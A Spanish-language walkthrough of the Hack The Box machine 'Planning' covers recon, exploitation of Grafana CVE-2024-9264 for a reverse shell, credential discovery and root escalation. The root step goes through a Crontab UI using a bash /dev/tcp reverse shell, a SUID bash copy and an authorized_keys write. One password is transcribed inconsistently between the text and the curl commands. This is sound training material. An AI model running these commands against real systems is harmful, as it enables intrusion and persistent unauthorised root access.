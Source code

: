 # Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina
Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

##### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```

![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)

#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```

![/etc/hosts](images/planning_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer
Permite identificar las `tecnologías` que se utilizan en esta `web`.
![Wappalyzer](images/planning_wappalyzer.PNG)

#### Enumeración de subdirectorios con Gobuster
Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

![Gobuster](images/planning_gobuster.PNG)

#### Enumeración de subdominios con Wfuzz
Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

![Wfuzz](images/planning_wfuzz_inicial.PNG)

Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```

![Wfuzz filtrado](images/planning_wfuzz_grafana.PNG)

#### Mapeamos el nuevo subdominio en /etc/hosts
Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).
![Wfuzz filtrado](images/planning_dns_subdominio.PNG)

#### Grafana
Página de login de Grafana en grafana.planning.htb.
![Wfuzz filtrado](images/planning_grafana_web_login.PNG)

Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.
![Grafana](images/planning_grafana_dashboard_v11.PNG)

### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.


[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)


#### Reverse shell
Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

![Reverse shell](images/planning_exploit.PNG)

[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación
Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

![Proceso 1](images/planning_process_1.PNG)

#### LinPEAS
Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

![Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

![Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH
Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

![SSH 1](images/planning_ssh_enzo1.PNG)
![SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root
Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

![NetStat](images/planning_conexiones_locales.PNG)
![Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

![Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding
Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```
![Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI
El servicio que corre en localhost:8000 es un Crontab UI desde donde se pueden ejecutar comandos one-liner como root.

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

![Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

![Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

![Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno
Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/planning_limpieza_entorno.PNG)
